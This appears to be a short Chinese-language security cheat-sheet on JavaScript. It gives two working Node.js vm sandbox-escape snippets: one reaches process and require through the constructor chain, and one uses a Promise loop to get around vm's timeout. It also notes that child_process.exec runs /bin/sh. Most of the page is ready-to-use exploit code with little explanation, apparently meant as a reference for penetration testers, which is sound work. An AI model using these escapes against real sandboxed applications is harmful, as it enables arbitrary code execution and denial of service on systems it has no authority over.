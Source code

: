 JavaScript
================================

沙箱逃逸
-------------------------------

exp

::

    const sandbox = {};
    const whatIsThis = vm.runInNewContext(`
        const ForeignObject = this.constructor;
        const ForeignFunction = ForeignObject.constructor;
        const process = ForeignFunction("return process")();
        const require = process.mainModule.require;
        require("fs");
    `, sandbox);

::

    vm.runInNewContext(
      'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
      {console:{log(){console.log.apply(console,arguments);}}},
      {timeout:5}
    );


命令执行
-------------------------------

Node.js中child_process.exec命令调用的是/bin/sh，故可以直接使用该命令执行shell